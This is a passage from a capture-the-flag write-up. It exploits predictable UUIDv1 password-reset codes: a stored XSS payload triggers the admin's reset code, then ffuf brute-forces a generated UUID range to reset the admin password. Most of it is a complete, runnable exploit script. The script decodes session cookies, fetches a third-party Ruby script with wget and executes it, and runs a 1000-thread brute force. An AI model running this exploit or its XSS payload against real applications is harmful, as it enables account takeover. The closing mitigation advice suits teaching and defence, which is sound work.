

We see these 3 reset codes being generated:

* 45fc923d-99b2-11ef-b5c1-0242ac110002 (First reset code of our user)
* 46651b27-99b2-11ef-b5c1-0242ac110002 (Reset code of admin user)
* 467a57db-99b2-11ef-b5c1-0242ac110002 (Second reset code of our user)

Let's generate all UUIDs between 2 UUIDs of our user again to see where the reset code of *admin* user lies in those UUIDs.



Reset code of *admin* user is on line number 6850795 and is very close to second reset code (last UUID). Is the admin's reset code always present at very last? Yes, if we keep restarting our server and see where our admin's UUID is, we see that it is present in the last 2 million UUIDs everytime. 

### But Why is admin's UUID always towards to the end of file(closer to second UUID of our user)?

The reason is very simple, UUIDv1 is based on time. Suppose, you want to generate 3 UUIDs based on v1. This is your python program to generate them.

```python
import time, uuid

a = uuid.uuid1()
time.sleep(0.1)
b = uuid.uuid1()
time.sleep(1)
c = uuid.uuid1()

print(a)
print(b)
print(c)
```

When you run this program, you will notice that the possible number of UUIDs between `a` and `b` is LESS than the possible number of UUIDs between `b` and `c`. Why? Because there is less time duration between `a` and `b`(0.1 sec) than in `b` and `c`(1 sec). **Note: You can confirm the number of UUIDS between them by using the ruby script mentioned earlier.**

This means, the longer server takes during each of the 3 requests we send in our exploit, the greater the number of possible UUIDs.

Now, coming to the main question. Why is admin's UUID closer to second UUID of our user than the first UUID of our user? Let's look at our exploit code.

```python
...
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc1 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

# Now sending our XSS payload to trigger reset code for admin user 
requests.post('http://'+IP+':'+PORT+'/contact', data='name=123&email=a@a.com&msg=<script>fetch(\'http://127.0.0.1:1337/resetcode\')</script>', headers={'Content-type':'application/x-www-form-urlencoded'})

# Again fetching new reset code for our user
session.get('http://'+IP+':'+PORT+'/resetcode')
...
```

These 3 requests are the backbone of our exploit, first request to get 1st reset code for our user, second POST request to trigger reset code for admin user and the last request is to get 2nd reset code for our user.

Let's see the number of statements server execute during receiving these 3 requests.



We can clearly see that the time duration between admin's reset code and 2nd reset code of user is much smaller than the time duration between admin's reset code and 1st reset code of user.

Now, we know why our admin's reset code UUID is closer to the 2nd UUID of user (last UUID) in the generated uuids list.

So, what if we just launch our brute force attack but use the generated UUIDs list in reverse order. In this way, we will reach reset code of *admin* faster, maybe under 1 hour.

We can reverse the order of lines of any file in linux with tac command.

```bash
tac uuids.txt > reversed_uuids.txt
```

We launch our brute force attack once again and this time, we found a valid reset code in under 1 hour.



As we have set admin's password to '1', we can now send request to `/protected` endpoint after first authenticating as *admin*.

```python
...
session = requests.Session()
session.post('http://'+IP+':'+PORT+'/', data='username=admin&password=1', headers={'Content-type':'application/x-www-form-urlencoded'})
print(session.post('http://'+IP+':'+PORT+'/protected', data='password=1', headers={'Content-type':'application/x-www-form-urlencoded'}).text)
```

and we have the flag.

Here is the complete exploit code we wrote for the challenge:

```python
import requests, base64, json, os

IP = '<IP>'
PORT = '<PORT>'

# Creating new user
requests.post('http://'+IP+':'+PORT+'/register', data='username=test&email=test@test.com&password=123', headers={'Content-type':'application/x-www-form-urlencoded'})

# Login with new user and trigger the reset code
session = requests.Session()
session.post('http://'+IP+':'+PORT+'/', data='username=test&password=123', headers={'Content-type':'application/x-www-form-urlencoded'})
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc1 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

# Now sending our XSS payload to trigger reset code for admin user 
requests.post('http://'+IP+':'+PORT+'/contact', data='name=123&email=a@a.com&msg=<script>fetch(\'http://127.0.0.1:1337/resetcode\')</script>', headers={'Content-type':'application/x-www-form-urlencoded'})

# Again fetching new reset code for our user
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc2 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

print("[+] First reset code: " + rc1)
print("[+] Second reset code: " + rc2)

# Downloading ruby script to automatically generate UUIDv1 values between 2 different uuids
os.system('wget https://raw.githubusercontent.com/Lupin-Holmes/sandwich/refs/heads/main/sandwich.rb')
os.system('chmod +x sandwich.rb')
os.system('ruby ' + './sandwich.rb ' + rc1 + ' ' + rc2 + ' -o uuids.txt')

# Reversing the order of lines to decrease the duration of attack
os.system('tac uuids.txt > reversed_uuids.txt')

# Download & installing ffuf for brute forcing reset code from the generated uuids.
os.system('sudo apt install ffuf')

# Launching Brute force
print("[+] Launching the bruteforce")
print("[+] Note: When ffuf will find a valid reset code, it will show the response with 2 words. You can simply Press CTRL+C when ffuf have found the code to terminate the brute force and continue the exploit.")
print("[+] Press Enter to continue")
input()
os.system('ffuf -u ' + 'http://' + IP + ':' + PORT + '/reset/password/FUZZ -X POST -d \'password=1\' -w reversed_uuids.txt -t 1000 -H \'Content-type: application/x-www-form-urlencoded\' -mw 2')

print('[+] Exploit completed, the password of admin user has been set to \'1\' with the reset code which got 2 Words in ffuf response!')
print('[+] Fetching flag through the new password')

# Fetching the flag
session = requests.Session()
session.post('http://'+IP+':'+PORT+'/', data='username=admin&password=1', headers={'Content-type':'application/x-www-form-urlencoded'})
print(session.post('http://'+IP+':'+PORT+'/protected', data='password=1', headers={'Content-type':'application/x-www-form-urlencoded'}).text)
```

After running the exploit, it took around 1 hour for the exploit to complete and give us the flag.



This challenge emphasizes on a fact that a security professional may still find insecure and outdated UUIDs in different applications during their bug bounty/pentesting journey.

### Mitigation:

Developers can mitigate both of the vulnerabilities showcased in this challenge by:
- Implementing XSS sanitization like DOMPurify BEFORE rendering it on client-side. In this challenge, DOMPurify was only placed during data submission which can easily be bypassed through some proxy. They should sanitize data just before displaying.
- Using latest and secure version of UUID: UUIDv4.
